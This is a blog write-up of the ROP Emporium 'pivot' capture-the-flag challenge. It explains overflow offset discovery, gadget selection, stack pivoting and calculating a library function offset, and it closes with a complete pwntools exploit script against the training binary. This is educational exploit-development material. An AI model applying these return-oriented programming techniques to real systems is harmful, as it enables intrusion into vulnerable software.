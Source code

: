 ```yaml
---
layout: post
title: ropemporium - pivot
date: 2025-01-10 00:13:37 +0300
description: 
img: ropemporium-pivot/cover.png
fig-caption: 
tags:
  - ctf
---
```

*This challenge was a very good beginning for the idea of stack pivoting, and how to call functions using offsets of the libraries. Even though is very simple, concepts like calculating the offset of functions and call another one, based on that offset, were applied.*

Starting with the check for the file protections:

![](../assets/img/ropemporium-pivot/Pasted%20image%2020250107232141.png)
*File protections*

- Partial RELRO
- NX enabled

Sending a payload generated by *metasploit-pattern_create*, and calculating the offset with *metasploit-pattern_offset*, the offset found was 40.

![](../assets/img/ropemporium-pivot/Pasted%20image%2020250107223653.png)
*Buffer overflow with the found offset*

![](../assets/img/ropemporium-pivot/Pasted%20image%2020250107223635.png)
*Offset match at 40.*

For this challenge, the description explains that we need to just call the *ret2win* function. Since the default stack smashing challenges provides us a plenty of space to build our chain, this one is a bit different, providing basically none.

Looking into the program imports using **rabin2**, there ir no *ret2win* function, but we have the *foothold_function*.

```bash
rabin2 -i pivot
```
![](../assets/img/ropemporium-pivot/Pasted%20image%2020250109095030.png)
*Function foothold_function imported.*

This is because the *ret2win* function is present only inside the provided library, and is not called by the binary directly, and we have to find a way to call it in our chain.

```bash
nm libpivot.so | grep ' T '
```
![](../assets/img/ropemporium-pivot/Pasted%20image%2020250109095226.png)
*The ret2win function inside the libpivot lib*

Executing the program normally and sending a big payload, the stack already hit a non-writable place less than 30 bytes.

![](../assets/img/ropemporium-pivot/Pasted%20image%2020250109094116.png)
*This place on the stack is non-writable*

So, the challenge consists of pivoting the stack to another place that we could send our rop chain properly.

The *foothold_function* is called inside the binary, and it will be used to pivot the stack to a place with more space.

During the normal execution flow, the "gods kindly bestowed upon us" a place to pivot the stack to:

![](../assets/img/ropemporium-pivot/Pasted%20image%2020250109094350.png)
*0x7ffff7a0df10*

Checking the position address, is perceived that we have indeed a plenty of space there, serving as a adequate space for the chain to be inserted.

![](../assets/img/ropemporium-pivot/cover.png)
*No data in the address allocated*

Now we have to find a way to call the function in the imported lib, using the offset of the *foothold_function* and *ret2win* functions. Calculating the offset of the base addresses, we could discover how many bytes are needed to add to the *foothold_function* address to reach *ret2win*.

![](../assets/img/ropemporium-pivot/Pasted%20image%2020250110001630.png)
*Base addresses of the functions foothold_function and ret2win*

Calculating the value using python, the offset returned was **279** or `0x117`.

![](../assets/img/ropemporium-pivot/Pasted%20image%2020250110001329.png)
*Offset from foothold_function to ret2win*

From now, is possible to create a logic for our rop chain:
1. Pivot the stack to another place
2. Call the *foothold_function* from PLT to update the GOT address.
3. Call the *ret2win* function from the address calculated from the offset.

Gathering our gadgets to achieve the desired goals, we found the following:

```
1: 0x4009bb : pop rax; ret
2: 0x4009c0 : mov rax, [rax]
3: 0x4009bd : xchg rsp, rax ; ret
4: 0x4009c4 : add rax, rbp ; ret
5: 0x4007c1 : jmp rax
```

Since we need to send 2 chains to the program, we built them as follows:

First chain:
1. Fill the buffer until *RBP* position;
2. Set the *RBP* position on the stack smash to the *ret2win* function offset relative to *foothold_function@got*;
3. Use (1) to set *RAX* to the new stack position;
4. Use (3) to set *RAX* to *RSP* and pivot the stack.

Second chain:
1. Address of *foothold_function@plt*;
2. Use (1) to set *RAX* to the *foothold_function@got* address;
3. Use (2) to set *RAX* to the value inside the *foothold_function@got* address;
4. Use (4) to add the offset (inside *RBX*) to *RAX*;
5. Use (5) to jump to the address inside *RAX*, which is the *ret2win*function.

Coming out with the final exploit, we got the flag.
![](../assets/img/ropemporium-pivot/Pasted%20image%2020250110215713.png)
*Flag obtained*

Final exploit code:
```python
#!/usr/bin/env python

from pwn import *

foothold_function_plt = p64(0x400720)
foothold_function_got = p64(0x601040)

POP_RAX = p64(0x4009bb) # pop rax ; ret
MOV_RAX_pRAX = p64(0x4009c0) # mov rax, [rax]
XCHG_RSP_RAX = p64(0x4009bd) # xchg rsp, rax ; ret
ADD_RAX_RBP = p64(0x4009c4) # add rax,rbp
JMP_RAX = p64(0x4007c1) # jmp rax

elf = context.binary = ELF('./pivot')
io = process(elf.path)
io.recvuntil(b'pivot: ')

info('Getting the pivot place...')
PIVOT_DEST = int(io.recv(14),16)

info('Pivot new location: %#x', PIVOT_DEST)
PIVOT_DEST = p64(PIVOT_DEST)
io.recv(1024)

BUFFER_FILL = b"B"*32
RBP = p64(279)

first_chain = BUFFER_FILL 
first_chain += RBP 
first_chain += POP_RAX 
first_chain += PIVOT_DEST 
first_chain += XCHG_RSP_RAX

second_chain = foothold_function_plt 
second_chain += POP_RAX 
second_chain += foothold_function_got 
second_chain += MOV_RAX_pRAX 
second_chain += ADD_RAX_RBP 
second_chain += JMP_RAX

io.send(second_chain)
io.send(first_chain)

io.interactive()
```